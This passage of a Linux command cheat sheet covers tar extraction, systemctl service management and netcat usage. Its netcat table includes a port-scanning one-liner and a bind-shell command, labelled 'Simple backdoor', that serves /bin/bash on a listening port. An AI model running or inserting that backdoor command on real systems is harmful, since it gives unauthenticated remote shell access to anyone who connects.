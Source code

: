 **Linux command used to unzip tar format**

---

|Command|Explanation|
|-|-|
|`tar -xvf file.tar`| Detailed unzipping|

---
## SYSTEMCTL

**Linux command to manage different services**

---

|Command|Explanation|
|-|-|
|`sudo systemctl restart service`| Restart service|
|`sudo systemctl status service`|Check service status|
|`sudo systemctl stop service`|Stop service|
|`sudo systemctl --type=service --state=running`|List active service|

---

## NETCAT

**Universal utility for network connection in Unix and similar operating systems**

---

|Command|Explanation|
|-|-|
|`nc host port`|Connects to the host on the specified port|
|`nc -l -p port`|Starts nc in listener mode on the specified port|
|`nc -z host {port-range}`|Basic port scanner|
|`nc -v host port`|Get banner|
|`nc -l -p local_port -c 'nc remote_host remote_port'`|Configures a basic proxy where it listens for a specific local port and forwards it to a remote server|
|`nc -l -p 1234 -e /bin/bash`|Simple backdoor|

---

